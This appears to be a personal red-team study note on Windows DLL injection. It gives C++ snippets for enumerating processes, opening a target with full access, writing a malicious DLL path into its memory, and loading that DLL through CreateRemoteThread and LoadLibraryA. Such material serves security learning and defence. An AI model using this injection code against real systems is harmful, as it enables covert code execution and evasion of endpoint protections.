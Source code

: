 ```yaml
---
date-created: 2025-06-13
dg-publish: true
tags:
  - red-team/host-evasion
aliases:
---
```

~ [[Abusing Windows Internals]]
### Introduction
---
**DLL injection** is a technique used to run custom code inside the address space of another process by forcing that process to load a **Dynamic Link Library (DLL)** that contains the malicious.
## Steps
---
**Step 1: Locate the Target Process**

- Use Windows API to search for the process name and obtain its PID (Process ID).
- Uses:
  - `CreateToolhelp32Snapshot` - creates a snapshot of the specified processes, threads, modules, or heaps in the system currently running.
	  - `TH32CS_SNAPPROCESS`: Indicates we want a snapshot of all processes.
  - `Process32First` - Retrieves information about the first process in the snapshot created recently -- Acts as a starting point for process enumeration.
  - `Process32Next` -- continues the iteration through the rest of the process in the snapshot.


```cpp
DWORD getProcessId(const char *processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot) {
        PROCESSENTRY32 entry;
        entry.dwSize = sizeof(PROCESSENTRY32);
        if (Process32First(hSnapshot, &entry)) {
            do {
                if (!strcmp(entry.szExeFile, processName)) {
                    return entry.th32ProcessID;
                }
            } while (Process32Next(hSnapshot, &entry));
        }
    }
}


DWORD processId = getProcessId(processName); // Stores the enumerated process ID
```

- `entry.szExeFile` holds the name of the current process being checked in the loop.
- `processName` is the process we are looking for.


**Step 2: Open the Target Process**

- Open the process using `OpenProcess` with `PROCESS_ALL_ACCESS`.
    
- This grants full permissions to manipulate memory and create threads.

```cpp
HANDLE hProcess = OpenProcess(
    PROCESS_ALL_ACCESS,
    FALSE,
    processId
);
```

**Step 3: Allocate Memory for the DLL Path**

Remember: _hProcess_ is the variable that has a handle to the target process.

```cpp
LPVOID dllAllocatedMemory = VirtualAllocEx(
    hProcess,
    NULL,
    strlen(dllLibFullPath),
    MEM_RESERVE | MEM_COMMIT,
    PAGE_EXECUTE_READWRITE
);
```

- Allocate memory in the target process to hold the DLL path string.
    
- Use `VirtualAllocEx` to allocate executable memory.

**Step 4: Write the DLL Path to Allocated Memory**

```cpp
WriteProcessMemory(
    hProcess, // Handle for the target process
    dllAllocatedMemory,// Allocated Memory In Region
    dllLibFullPath, // Path to the malicious DLL
    strlen(dllLibFullPath) + 1,
    NULL
);
```


- Write the DLL file path to the allocated region in the remote process.
    
- Use `WriteProcessMemory`.

**Step 5: Load and Execute the Malicious DLL**

```cpp
LPVOID loadLibrary = (LPVOID) GetProcAddress(
    GetModuleHandle("kernel32.dll"),
    "LoadLibraryA" // API call to import
);
HANDLE remoteThreadHandler = CreateRemoteThread(
    hProcess, // Handle for the target process
    NULL,
    0, // Default size from the executable of the stack
    (LPTHREAD_START_ROUTINE) loadLibrary,
    dllAllocatedMemory, // pointer to the allocated memory region.
    0,
    NULL
);
```


- Get the address of `LoadLibraryA` from kernel32.dll using `GetProcAddress`.
    
- Use `CreateRemoteThread` to create a new thread in the remote process.
    
- Pass the DLL path and execute the thread to load the DLL.

**Note:** as for the process name you need to input what the task manager sees so in our example

![[Abusing DLLs.png]]
### Conclusion
---
Assuming all prerequisites are met (correct privileges, matching architecture, and a valid DLL), DLL injection involves:

1. Identifying the target process.
    
2. Opening a handle to it with appropriate access rights.
    
3. Allocating memory inside the target process for the DLL path.
    
4. Writing the full path of the malicious DLL into that allocated memory.
    
5. Using `LoadLibrary` via `CreateRemoteThread` to load and execute the DLL in the context of the target process.



